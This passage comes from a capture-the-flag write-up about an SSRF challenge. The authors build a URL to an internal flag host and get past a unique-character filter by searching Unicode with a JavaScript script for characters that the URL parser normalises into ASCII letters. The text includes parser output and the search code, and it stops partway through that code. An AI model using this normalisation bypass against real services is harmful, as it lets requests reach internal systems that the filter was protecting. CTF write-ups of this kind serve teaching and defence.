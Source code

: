 ```
}
>
```

Recall our target url is: http://the.c0o0o0l-fl444g.server.internal:80

We know port 80 is the default for the http protocol so we don't need that.

http://the.c0o0o0l-fl444g.server.internal

So far, we can do this and our URL parser is happy with it:

HTtP:the.c0o0o0l-fl444g.server.internal

```
> new URL('HTtP:the.c0o0o0l-fl444g.server.internal')
URL {
  href: 'http://the.c0o0o0l-fl444g.server.internal/',
  origin: 'http://the.c0o0o0l-fl444g.server.internal',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'the.c0o0o0l-fl444g.server.internal',
  hostname: 'the.c0o0o0l-fl444g.server.internal',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```


We then run into the 't' right after the colon and we've already used both lowercase t and uppercase T.

We were stuck at this point for a long while.


## Unicode Normalization to the Rescue

Clearly the URL's internal parser is doing some normalization.  We feed it both upper 'T' and lowercase 't' and they both come out parsed as lowercase 't'.

That made us wonder if there might be other Unicode characters that, for whatever reason, also get normalized into lowercase 't'.

We wrote this **ssrfrog.js** javascript code to hunt for them:

```
function findVariants(targetChar) {
    let targetHost = 'fake' + targetChar + '.com';
    for (i = 32; i <= 65535; i++) {
        let candidateChar = String.fromCharCode(i);
        let input = 'http://fake' + candidateChar + '.com';
        try {
            let url = new URL(input);
            if (url.hostname === targetHost) {
                console.log(targetChar, ':', i, candidateChar);
            }
        }
        catch(e) {
        }
    }
}

let domain = 'the.c0o0o0l-fl444g.server.internal';
let domainSet = new Set(domain);
```